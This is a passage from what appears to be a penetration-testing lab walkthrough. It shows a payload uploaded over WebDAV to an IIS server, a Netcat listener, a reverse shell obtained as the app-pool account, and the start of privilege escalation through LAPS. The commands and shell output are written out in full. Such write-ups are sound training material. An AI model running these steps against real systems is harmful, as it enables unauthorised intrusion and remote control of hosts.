 Next, we'll upload the payload using our WebDAV connection.

```
dav:/> put shell.exe
Uploading shell.exe to `/shell.exe':
Progress: [=============================>] 100.0% of 73802 bytes succeeded.
dav:/> exit
Connection to `192.168.120.108' closed.
```

Let's start a Netcat listener on port 445.

```
kali@kali:~$ sudo nc -lvp 445                   
listening on [any] 445 ...
```

Finally, we'll execute our payload from the web shell by providing the full path to the executable (**C:\inetpub\wwwroot\shell.exe**). Our listener indicates that we have received the reverse shell.

```
kali@kali:~$ sudo nc -lvp 445                   
listening on [any] 445 ...
192.168.120.108: inverse host lookup failed: Unknown host
connect to [KALI-IP] from (UNKNOWN) [192.168.120.108] 50393
Microsoft Windows [Version 10.0.17763.1554]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

## Escalation

### Microsoft LAPS

Next, we'll escalate our privileges. The contents of the **C:\Program Files\** directory indicate that Microsoft's _Local Administrator Password Solution (LAPS)_ may be installed.

```
c:\windows\system32\inetsrv>dir "C:\Program Files"
dir "C:\Program Files"
 Volume in drive C has no label.
 Volume Serial Number is 0A26-9DC1

 Directory of C:\Program Files

11/03/2020  09:59 PM    <DIR>          .
11/03/2020  09:59 PM    <DIR>          ..
11/04/2020  04:08 AM    <DIR>          Common Files
11/03/2020  08:34 PM    <DIR>          internet explorer
11/03/2020  09:59 PM    <DIR>          LAPS
11/03/2020  09:37 PM    <DIR>          MSBuild
11/03/2020  09:37 PM    <DIR>          Reference Assemblies
11/04/2020  04:08 AM    <DIR>          VMware
11/03/2020  08:39 PM    <DIR>          Windows Defender
11/03/2020  09:02 PM    <DIR>          Windows Defender Advanced Threat Protection
09/14/2018  11:19 PM    <DIR>          Windows Mail
11/03/2020  08:34 PM    <DIR>          Windows Media Player
09/14/2018  11:19 PM    <DIR>          Windows Multimedia Platform
09/14/2018  11:28 PM    <DIR>          windows nt
11/03/2020  08:34 PM    <DIR>          Windows Photo Viewer
09/14/2018  11:19 PM    <DIR>          Windows Portable Devices
09/14/2018  11:19 PM    <DIR>          Windows Security
09/14/2018  11:19 PM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
```